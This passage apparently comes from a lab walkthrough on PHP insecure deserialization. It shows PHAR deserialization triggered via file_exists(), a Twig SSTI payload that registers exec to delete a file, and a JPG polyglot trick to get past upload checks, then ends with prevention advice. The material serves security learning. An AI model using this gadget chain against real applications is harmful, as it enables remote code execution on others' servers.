        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```
`Blog.php`
```php
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```
The `CustomTemplate` class contains this code:
```php
private function isTemplateLocked() {
    return file_exists($this->lockFilePath());
}
```
The `file_exists()` function will automatically trigger PHAR deserialization if a **phar://** path is provided.

Since `lockFilePath()` returns a filename derived from the `template_file_path` property, we can control it.

In the **Blog.php** class, we see this method:
```php
public function __wakeup() {
    $loader = new Twig_Loader_Array([
        'index' => $this->desc,
    ]);
    $this->twig = new Twig_Environment($loader);
}
```
Since `__wakeup()` is called during unserialization, we can inject a Twig template payload into desc, and when Twig processes it, we get remote code execution.

**Crafting the Payload**
- We create an instance of Blog and set its desc property to an SSTI (Server-Side Template Injection) payload
- Next, we store this Blog object inside a CustomTemplate object
- Since the website only allows JPG uploads, we hide our PHAR payload inside a valid JPG file

https://github.com/kunte0/phar-jpg-polyglot.git

```php
//pop exploit class
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'carlos';
$object->template_file_path = $blog;
```

## Exploiting deserialization using memory corruption

Even without the use of gadget chains, it is still possible to exploit insecure deserialization. If all else fails, there are often publicly documented memory corruption vulnerabilities that can be exploited via insecure deserialization. These typically lead to remote code execution.

Deserialization methods, such as PHP's unserialize() are rarely hardened against these kinds of attacks, and expose a huge amount of attack surface. This is not always considered a vulnerability in its own right because these methods are not intended to handle user-controllable input in the first place. 
## How to prevent insecure deserialization vulnerabilities

Generally speaking, deserialization of user input should be avoided unless absolutely necessary. The high severity of exploits that it potentially enables, and the difficulty in protecting against them, outweigh the benefits in many cases.

If you do need to deserialize data from untrusted sources, incorporate robust measures to make sure that the data has not been tampered with. For example, you could implement a digital signature to check the integrity of the data. However, remember that any checks must take place before beginning the deserialization process. Otherwise, they are of little use.

If possible, you should avoid using generic deserialization features altogether. Serialized data from these methods contains all attributes of the original object, including private fields that potentially contain sensitive information. Instead, you could create your own class-specific serialization methods so that you can at least control which fields are exposed.

Finally, remember that the vulnerability is the deserialization of user input, not the presence of gadget chains that subsequently handle the data. Don't rely on trying to eliminate gadget chains that you identify during testing. It is impractical to try and plug them all due to the web of cross-library dependencies that almost certainly exist on your website. At any given time, publicly documented memory corruption exploits are also a factor, meaning that your application may be vulnerable regardless. 